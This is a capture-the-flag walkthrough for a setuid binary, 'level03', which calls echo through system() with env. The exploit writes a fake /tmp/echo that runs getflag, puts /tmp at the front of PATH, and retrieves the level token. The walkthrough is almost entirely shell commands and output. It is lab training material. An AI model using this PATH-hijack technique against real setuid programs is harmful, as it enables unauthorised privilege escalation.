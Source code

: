 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

```bash 
$ file level03
executable with setuid and setgid active
```
```bash 
$ ./level03
Exploit me
```

## Learning more about the executable 

```bash
$ ltrace ./level03 
[...]
system("/usr/bin/env echo Exploit me"Exploit me)
[...]
```

We see that the executable calls the echo function with system.
I did a previous CTF where we had to change the PATH to have a custom echo command, we will do the same here.

## Implementing our own echo command

```bash
$ echo "/bin/sh -c 'getflag'" > /tmp/echo
$ chmod 755 /tmp/echo
```

On ajoute notre dossier tmp au PATH afin que le notre soit execute au lieu de celui par defaut 

```bash
$ export PATH=/tmp:$PATH
```

I make sure that tmp has been added to the path :
```bash
$ which echo 
/tmp/echo
```

And finally 
```bash
$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
